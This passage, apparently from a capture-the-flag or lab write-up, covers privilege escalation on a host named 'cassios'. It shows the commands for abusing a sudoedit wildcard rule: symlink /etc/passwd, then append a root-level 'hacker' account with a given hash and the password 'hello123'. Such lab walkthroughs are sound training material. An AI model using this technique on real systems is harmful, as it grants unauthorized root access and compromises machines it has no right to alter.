 ## Privilege Escalation

### Sudoedit Double Wildcard --> Arbitrary Write

I checked our `sudo` privileges, and saw this:

```
[samantha@cassios ~]$ sudo -l
Matching Defaults entries for samantha on cassios:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="QTDIR
    KDEDIR"

User samantha may run the following commands on cassios:
    (root) NOPASSWD: sudoedit /home/*/*/recycler.ser
```

We can abuse this by creating a symlink to the `/etc/passwd` file named as `recycler.ser` and add a new `root` user to it using this line:

```
hacker:$1$1pSPZTFk$gYPHTQbbBddT5WjcvIZNl/:0:0::/root:/bin/sh
```

Run the following commands:

```
[samantha@cassios ~]$ mkdir symlink
[samantha@cassios ~]$ cd symlink/                                                            
[samantha@cassios symlink]$ ln -s /etc/passwd recycler.ser
[samantha@cassios symlink]$ ls
recycler.ser
[samantha@cassios symlink]$ sudoedit /home/samantha/symlink/recycler.ser 
```

This would bring up the `/etc/passwd` file, where we can add the new `hacker` user and use `:wq` to save the changes made. Then, `su` to hacker with `hello123` as the password:

<figure><img src="../../../.gitbook/assets/image (1379).png" alt=""><figcaption></figcaption></figure>

Rooted!

